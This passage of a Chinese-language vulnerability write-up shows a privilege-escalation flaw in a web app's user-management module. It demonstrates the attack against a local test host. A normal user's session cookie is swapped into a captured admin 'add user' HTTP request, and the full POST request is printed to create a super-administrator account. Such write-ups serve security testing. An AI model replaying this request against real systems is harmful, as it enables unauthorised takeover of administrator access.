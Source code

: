 寻找后发现是在用户管理模块的新增功能

![image-20240131014119460](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-99b04ddcf3a63e8b057b5b6489d87d2d6d3d3949.png)

新增用户抓取数据包

![image-20240131014551587](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-bbd6f283c5d82797f97f4feb950ae6d1dbd16b08.png)

![image-20240131014723901](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-ebf08ad8764f567e201795fb222c4b924ce93c09.png)

接下来登录一个普通用户的账号、可以看到这个用户是没有`用户管理`这个功能的。

抓取他的session

![image-20240131013042054](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-09cadae2ef5c9c5e7bab287903098660746a3fc8.png)

使用普通用户的session替换掉管理员账号抓取到的数据包中的session。注意：身份证格式要规范，我用的自己的就不展示了。

![image-20240131014801196](https://shs3.b.qianxin.com/attack_forum/2024/02/attach-c03c84cfdb57214121058dc23d5727764f798a7e.png)

使用下边这个数据包的话要修改身份证哈`idCard`参数

```json
POST /useredit HTTP/1.1  
Host: 127.0.0.1  
sec-ch-ua-mobile: ?0  
Accept-Encoding: gzip, deflate, br  
Sec-Fetch-Dest: iframe  
Accept-Language: zh-CN,zh;q=0.9  
Sec-Fetch-Mode: navigate  
Referer: http://127.0.0.1/useredit  
Cookie: JSESSIONID=CA902F7BBA9E186241CC19593B034F47  
Upgrade-Insecure-Requests: 1  
Cache-Control: max-age=0  
sec-ch-ua-platform: "Windows"  
Sec-Fetch-Site: same-origin  
sec-ch-ua: "Not\_A Brand";v="8", "Chromium";v="120", "Google Chrome";v="120"  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,\*/\*;q=0.8,application/signed-exchange;v=b3;q=0.7  
Sec-Fetch-User: ?1  
Origin: http://127.0.0.1  
Content-Type: application/x-www-form-urlencoded  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36  
Content-Length: 317  
​  
userName=test&amp;userTel=14444444444&amp;realName=%E5%BC%A0%E4%B8%89&amp;eamil=14444444444%40qq.com&amp;address=%E6%B2%B3%E5%8D%97&amp;userEdu=%E6%9C%AC%E7%A7%91&amp;school=%E9%83%91%E5%A4%A7&amp;idCard=xxxxxxxxxxxxxxxxxx&amp;bank=62175555555555433&amp;deptid=1&amp;sex=%E7%94%B7&amp;positionid=1&amp;roleid=3&amp;salary=1000&amp;hireTime=2024-01-30&amp;themeSkin=blue&amp;userId=
```

成功创建用户，并且具有超级管理员权限
